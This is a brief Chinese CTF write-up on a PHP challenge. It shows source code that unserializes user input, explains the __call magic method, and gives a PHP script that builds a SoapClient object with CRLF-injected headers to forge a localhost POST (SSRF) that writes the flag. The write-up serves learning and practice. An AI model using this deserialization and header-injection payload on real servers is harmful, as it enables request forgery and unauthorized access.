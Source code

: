 ```php
<?php
highlight_file(__FILE__);

$vip = unserialize($_GET['vip']);
//vip can get flag one key
$vip->getFlag();
```

告诉我们 flag.php 的源码

```php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);


if($ip!=='127.0.0.1'){
	die('error');
}else{
	$token = $_POST['token'];
	if($token=='ctfshow'){
		file_put_contents('flag.txt',$flag);
	}
}
```

本题需要重点关注的[析构函数](https://so.csdn.net/so/search?q=析构函数&spm=1001.2101.3001.7020)

`__call` 在对象中调用一个不可访问方法时调用
在这道题中`$vip->getFlag();`因为调用了类中没有的方法所以会导致`__call`的执行
本题需要用到的函数

```
SoapClient::__call  //https://www.php.net/manual/zh/soapclient.call.php
```

因此我们只需要把XFF头改为127.0.0.1并以post方式传入token即可
给出payload
🐻：(注意flag.php当中x-f-f头加了以后X-Forwarded-For: 127.0.0.1,49.235.148.38, 172.69.35.19 pop方法弹出两个始终是49开头那个，所以我们把url改为127.0.0.1配合绕过)，发现不需要XFF头其实下面headers完全可以不要

```php
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'token=ctfshow';
$headers = array(
    'X-Forwarded-For: 127.0.0.1,127.0.0.1,127.0.0.1,127.0.0.1,127.0.0.1',
    'UM_distinctid:175648cc09a7ae-050bc162c95347-32667006-13c680-175648cc09b69d'
);
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'y4tacker^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri' => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
$aaa = str_replace('&','&',$aaa);
echo urlencode($aaa);
```
